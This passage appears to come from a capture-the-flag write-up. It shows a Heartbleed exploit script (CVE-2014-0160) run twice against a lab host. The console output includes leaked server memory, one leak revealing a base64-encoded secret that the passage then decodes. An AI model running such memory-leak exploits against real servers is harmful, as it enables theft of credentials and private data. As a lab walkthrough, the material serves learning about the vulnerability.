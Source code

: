 ```console
root@EdgeOfNight:~# python expl.py 10.10.10.79

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: 10.10.10.79:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.10.10.79:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#..........~.41.Mk....S......k.7..h....VyA...q

```
In this attempt we didn't get anything valuable, BUT if you do some encode / decode requests, you should be able to see your own data in this memory leak. More importantly, if you are lucky enough you will win a golden prize!

```console
root@EdgeOfNight:~# python expl.py 10.10.10.79

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: 10.10.10.79:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.10.10.79:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==8....=...P '{..m$C.3

```
Decode the base64 encoded text:
```console
root@EdgeOfNight:~# echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d
heartbleedbelievethehype
```
